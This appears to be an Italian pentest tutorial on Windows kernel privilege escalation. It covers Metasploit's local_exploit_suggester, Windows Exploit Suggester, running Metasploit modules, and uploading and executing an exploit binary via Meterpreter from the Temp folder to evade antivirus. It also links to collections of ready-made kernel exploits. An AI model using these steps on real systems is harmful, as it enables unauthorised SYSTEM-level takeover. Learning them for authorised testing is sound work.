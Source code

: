 
# Windows Kernel Exploit

Il kernel è il cuore del sistema operativo. In un sistema Windows, il kernel prende il nome di **Windows NT** e gestisce l’accesso diretto alle risorse di sistema e all’hardware. Funziona come un intermediario tra il software e le componenti fisiche, consentendo ai programmi di interagire in modo sicuro con la memoria, il processore, i dispositivi, ecc.

Windows distingue due modalità operative:

- **User Mode**: modalità con accesso limitato alle risorse. Le applicazioni comuni vengono eseguite qui, in uno spazio isolato per motivi di sicurezza.
- **Kernel Mode**: modalità privilegiata, con accesso illimitato alle risorse. Qui operano i driver, il gestore della memoria, il file system e tutte le funzioni di basso livello.

L’obiettivo di un **Windows Kernel Exploit** è sfruttare una vulnerabilità nella modalità kernel per passare da un utente con privilegi limitati a uno con privilegi **SYSTEM**, ottenendo così il controllo totale sul sistema.

 Attenzione: interagire direttamente con il kernel è pericoloso. Un errore può causare crash di sistema, perdita di dati o BSOD. 

## Fasi di exploit

### 1. Rilevamento delle vulnerabilità

Ogni sistema Windows può presentare vulnerabilità diverse, in base alla versione del sistema operativo, al livello di patch applicate e alle configurazioni installate.

Per identificare queste vulnerabilità, possiamo usare:

- `post/multi/recon/local_exploit_suggester` di Metasploit
- `Windows Exploit Suggester` (WES) scaricabile da <a href="https://github.com/AonCyberLabs/Windows-Exploit-Suggester">GitHub</a>

WES è uno script Python che confronta le informazioni raccolte con `systeminfo` sul target con un database di bollettini Microsoft, identificando patch mancanti ed eventuali exploit associati. Può anche indicare se esistono:

- moduli Metasploit ([M])
- exploit pubblici ([E])
- vulnerabilità senza bollettino ufficiale ([*])

Il simbolo **[M]** indica che esiste un modulo già pronto su Metasploit.  
Il simbolo **[E]** fa riferimento a un exploit disponibile in forma di **proof-of-concept** (PoC), solitamente scaricabile da siti come Exploit-DB.  
Il simbolo **[*]** indica che manca un bollettino ufficiale (ad esempio, vulnerabilità zero-day note ma non ancora pubblicate da Microsoft).

Un’altra ottima risorsa è la repository:

https://github.com/SecWiki/windows-kernel-exploits

Questa raccoglie centinaia di exploit per il kernel di Windows, organizzati per CVE. Ogni exploit è fornito con codice sorgente o binari compilati pronti all’uso.

### 2. Esecuzione via Metasploit

Dopo aver identificato un exploit tramite `local_exploit_suggester`, puoi eseguirlo direttamente in Metasploit:

`use <nome_modulo>` <br>
`set SESSION <numero_sessione>` <br>
`set LHOST <tuo_IP>` <br>
`set LPORT <porta>` <br>
`run` <br>

Per usare `local_exploit_suggester`:

1. Ottieni una sessione Meterpreter
2. Esegui `background` per metterla in pausa
3. Lancia:

`use post/multi/recon/local_exploit_suggester` <br>
`set SESSION <id_sessione>` <br>
`run` <br>

### 3. Esecuzione manuale

Puoi anche eseguire exploit manualmente. Ecco i passaggi:

1. Clona la repository:

`git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester` <br>
`cd Windows-Exploit-Suggester` <br>

2. Aggiorna il database:

`./windows-exploit-suggester.py --update`

3. Ottieni le informazioni del target:
- Vai su una shell del target e digita:

`systeminfo > systeminfo.txt`

4. Copia `systeminfo.txt` sulla tua macchina, poi esegui:

`./windows-exploit-suggester.py --database 2024-*.xls --systeminfo systeminfo.txt`


Ti verrà restituita una lista di vulnerabilità, ordinata per probabilità di successo.

Se decidi di usare un exploit da ExploitDB o dalla repo SecWiki:

- Trasferisci il binario sul target con Meterpreter:

`cd C:\` <br>
`ls` <br>
`cd Temp\` <br>
`upload ~/Downloads/exploit.exe` <br>
`shell` <br>
`exploit.exe` <br>

La cartella `Temp` viene usata per evitare di scrivere nella home dell’utente ed eludere possibili controlli o antivirus.

Una volta eseguito l’exploit, controlla i privilegi ottenuti:

`whoami`

Se la risposta è `NT AUTHORITY\SYSTEM`, l’elevazione è riuscita.

---
